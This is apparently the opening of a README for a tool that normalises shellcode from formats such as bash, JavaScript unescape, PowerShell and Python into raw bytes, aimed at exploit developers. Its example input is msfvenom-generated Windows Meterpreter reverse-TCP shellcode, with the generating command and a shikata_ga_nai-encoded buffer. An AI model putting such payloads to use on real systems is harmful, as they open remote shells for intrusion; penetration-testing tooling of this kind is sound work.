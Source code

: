 Ever struggled with getting bytes converted from forms as...

```
Payload size: 360 bytes
Final size of bash file: 1582 bytes
$'\x09\xa7\x2e\x57\xa3\x48\x87\x0f\x5b\xf0\x82\xc4\xfa\xfd'\
$'\x18\xa1\x3c\x75\xa9\x55\xf2\x7e\xd8\x45\xe2\x1e\x22\x96'\
$'\xf2\x8a\x22\xfc\xf6\x1c\x74\x68\xf4\x79\xb2\x37\x07\xac'\
$'\xc0\x30\xf7\x31\xf1\x4b\xc1\xa7\xbd\x23\x2d\x28\x3e\xb4'\
```

```
Final size of dw file: 1102 bytes
0x179eb4b1, 0x4553a9f6, 0x7ac6a6af, 0xf1daf3c4, 0xe55b1296, 0xb84a146e, 0x3a4c4fe5, 0x24c5e42a, 
0xdf9cc12f, 0x361ebd9b, 0x778c3ed2, 0xb0ccccdb, 0xc8bb2edb, 0x0ebcd218, 0x95480863, 0x71eadbc3, 
```

```
(gdb) x/12x $rip
0x40050f <main+15>: 0x00fc45c7  0xeb000000  0x05c4bf0e  0xbee80040
0x40051f <main+31>: 0x83fffffe  0x8301fc45  0x7e09fc7d  0x0000b8ec
0x40052f <main+47>: 0xc3c90000  0x1f0f2e66  0x00000084  0x1f0f0000
```

```
x86/shikata_ga_nai chosen with final size 360
Payload size: 360 bytes
Final size of js_le file: 1080 bytes

%uc9bb%u7a7e%udac3%ud9cf%u2474%u5ff4%uc929%u54b1%uef83%u31fc%u0f5f%u5f03%u9cc6%u3f8f%ue230%uc070%u83c0%u25f9%u83f1%u2e9e%u33a1%u63d4%ubf4d%u97b8%ucdc6%u9714%u7b6f%u9643%ud070%ub9b7%u2bf2%u19e4%ue3cb%u58f9%u190c%u09f3%u55c5%ubda6%u2362%u357b
```

```
Final size of powershell file: 2109 bytes
[Byte[]] $buf = 0xb8,0xda,0x52,0x8e,0xde,0xd9,0xe9,0xd9,0x74,0x24
$buf += 0xf4,0x5d,0x33,0xc9,0xb1,0x54,0x83,0xc5,0x4,0x31
$buf += 0x45,0xf,0x3,0x45,0xd5,0xb0,0x7b,0x22,0x1,0xb6
```

...when all you wanted was to **just get plain raw bytes**?

This tool has been crafted just for this annoying situation.


# Example use case

Consider two input files:

**my-shellcode.txt** (aka _good buffer_)

```
    # msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.XXX.YYY LPORT=4444 \
    #           -b '\x00' --encoder-space 740 -f py -v stage3
    stage3 += "\xda\xd1\xd9\x74\x24\xf4\x5e\xba\xb3\x4b\x18\xc3"
    stage3 += "\x29\xc9\xb1\x54\x83\xc6\x04\x31\x56\x14\x03\x56"
    stage3 += "\xa7\xa9\xed\x3f\x2f\xaf\x0e\xc0\xaf\xd0\x87\x25"
    stage3 += "\x9e\xd0\xfc\x2e\xb0\xe0\x77\x62\x3c\x8a\xda\x97"
    stage3 += "\xb7\xfe\xf2\x98\x70\xb4\x24\x96\x81\xe5\x15\xb9"
    stage3 += "\x01\xf4\x49\x19\x38\x37\x9c\x58\x7d\x2a\x6d\x08"
    stage3 += "\xd6\x20\xc0\xbd\x53\x7c\xd9\x36\x2f\x90\x59\xaa"
    stage3 += "\xe7\x93\x48\x7d\x7c\xca\x4a\x7f\x51\x66\xc3\x67"
    stage3 += "\xb6\x43\x9d\x1c\x0c\x3f\x1c\xf5\x5d\xc0\xb3\x38"
    stage3 += "\x52\x33\xcd\x7d\x54\xac\xb8\x77\xa7\x51\xbb\x43"
    stage3 += "\xda\x8d\x4e\x50\x7c\x45\xe8\xbc\x7d\x8a\x6f\x36"
    stage3 += "\x71\x67\xfb\x10\x95\x76\x28\x2b\xa1\xf3\xcf\xfc"
    stage3 += "\x20\x47\xf4\xd8\x69\x13\x95\x79\xd7\xf2\xaa\x9a"
    stage3 += "\xb8\xab\x0e\xd0\x54\xbf\x22\xbb\x30\x0c\x0f\x44"
    stage3 += "\xc0\x1a\x18\x37\xf2\x85\xb2\xdf\xbe\x4e\x1d\x27"
```